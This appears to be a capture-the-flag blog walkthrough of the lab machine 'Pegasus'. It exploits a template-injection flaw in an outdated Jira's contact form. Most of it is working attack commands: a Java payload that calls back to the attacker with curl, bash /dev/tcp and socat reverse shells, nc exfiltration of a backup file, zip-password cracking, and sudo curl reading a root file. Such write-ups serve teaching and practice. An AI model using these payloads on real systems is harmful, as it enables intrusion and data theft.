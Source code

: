 ```yaml
---
layout: post
title: "CTF7E4 - PEGASUS Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine had an old Jira instance running on port 8080 which has a remote code execution vulnerability in "Contact Administrators" form. When sending an email to Administrators through this form, it's possible to inject java code into Subject and Body message. The privilege escalation required some steps such as finding a backup file, cracking the zip password with private ssh key of user "Harvey" inside, then running curl with root permissions.

&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.33
- **Difficulty:** Medium

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.33**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for 10.10.10.33
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:53:8b:26:aa:11:32:a0:2b:ac:17:26:74:91:16:f4 (RSA)
|   256 ff:97:ac:ee:c6:ef:9a:60:19:a1:92:c9:d1:7e:99:d5 (ECDSA)
|_  256 32:7b:60:9a:a6:d8:6a:42:46:dd:22:98:f2:6b:43:95 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 6 disallowed entries 
| /sr/ /si/ /charts /secure/ConfigureReport.jspa 
|_/secure/ConfigureReport!default.jspa /secure/attachmentzip/
|_http-server-header: Apache-Coyote/1.1
| http-title: System Dashboard - Pegasus Cyber
|_Requested resource was http://10.10.10.33:8080/secure/Dashboard.jspa
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

Browsing to http://10.10.10.33:8080/secure/Dashboard.jspa, on the bottom of the page we can see it's using an outdated version **v6.4.x**

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus1.png){:.images}
&nbsp;

After some quick google searching we can see that there are many PoCs available on how to exploit this version. 

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus2.png){:.images}
&nbsp;

As I mentioned before, the vulnerability exists on "Contact Administrators" form so we are going to abuse this as seen on the following screenshots.

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus3.png){:.images}
&nbsp;

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus4.png){:.images}
&nbsp;

To confirm that there is a Remote Command Execution, we are going to listen on a random port and make a request to our machine.

> **→ nc -lnvp 9000**{: style="color: red"}

And put this payload on the Subject and Body field:
&nbsp;
```java
$i18n.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl 10.10.20.2:9000/?spenkk").waitFor()
```

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus5.png){:.images}
&nbsp;

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus6.png){:.images}
&nbsp;

Since we had a connection back to our listener, let's try to get a reverse shell. There are [many ways](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) on how we can get a reverse shell and I will try the most basic one:
> **→ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1**{: style="color: red"}

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus7.png){:.images}
&nbsp;

Even if we don't get a connection back it doesn't mean that it's not vulnerable. There is a binary called Socat which is often used in these cases and it's very stable.
&nbsp;

Attacker machine:
> **→ socat file:`tty`,raw,echo=0 TCP-L:1337**{: style="color: red"}

Payload:
> **→ $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('socat tcp-connect:10.10.20.2:1337 exec:sh,pty,stderr,setsid,sigint,sane').waitFor()**{: style="color: red"}

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus8.png){:.images}
&nbsp;

We got a reverse shell as user **"jira"**.

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus9.png){:.images}
&nbsp;

We continued our local enumeration and found a backup file on /var/tmp/backup.zip
&nbsp;
To transfer this file to our machine we can use **nc**.
&nbsp;
Attacker machine:
> **→ nc -lp 5555 > backup.zip**{: style="color: red"}

Pegasus Machine:
> **→ nc -w 3 10.10.20.2 5555 < backup.zip**{: style="color: red"}

Backup.zip was password protected but we can crack it using different tools, I prefer using [John](https://github.com/magnumripper/JohnTheRipper), but first we should convert the zip file to hash format in order for "John" to crack it.

> **→ ssh2john backup.zip >> backup.john**{: style="color: red"}

Then we can finally use John to crack it using a prefered wordlist.

> **→ john backup.john --wordlist=~/tools/SecLists/Passwords/rockyou.txt**{: style="color: red"}

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
999999999        (backup.zip/harvey_key)
1g 0:00:00:00 DONE (2020-02-03 11:13) 33.33g/s 546133p/s 546133c/s 546133C/s 123456..christal
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
&nbsp;

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus10.png){:.images}
&nbsp;

> **→ unzip backup.zip**{: style="color: red"}

```
Archive:  backup.zip
[backup.zip] harvey_key password: 999999999
  inflating: harvey_key 
```

> **→ cat harvey_key**{: style="color: red"}


```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsvqT8DA9wf3/303V8fk1n3ZLHIpwMTiG91JlORWNSLgz4ykX
..[SNIP]..
O8cJQ/XNm6cOF/hml+Qp4YDeskmAkQqhjkwwYIgw2qD6+lHlxR/Gdw==
-----END RSA PRIVATE KEY-----
```

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus11.png){:.images}
&nbsp;

We logged in as user Harvey and started enumeration for local privilege escalation.

> **→ harvey@pegasus:~$ id**{: style="color: red"}

uid=1002(harvey) gid=1002(harvey) groups=1002(harvey)

> **→ harvey@pegasus:~$ sudo -l**{: style="color: red"}

```
Matching Defaults entries for harvey on pegasus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harvey may run the following commands on pegasus:
    (ALL) NOPASSWD: /usr/bin/curl
```
&nbsp;

From the command above, we can see that Harvey can use curl with root permissions without entering a password and without being into sudo group. So lets try to send the /root/flag.txt to our machine with a post request.

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus12.png){:.images}
&nbsp;

As we can see, python default http server doesn't accept POST requests. We can modify it or find an already modified version on github but since the file is stored on the local machine that we're already in then we can use **file://** protocol to read it.

> **→ harvey@pegasus:~$ sudo curl file:///root/flag.txt**{: style="color: red"}

XOR{78a9776eba860f614e643e54e0815ee3b5aa8906}

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus13.png){:.images}
&nbsp;


&nbsp;
I hope you had fun solving this machine and learning something new.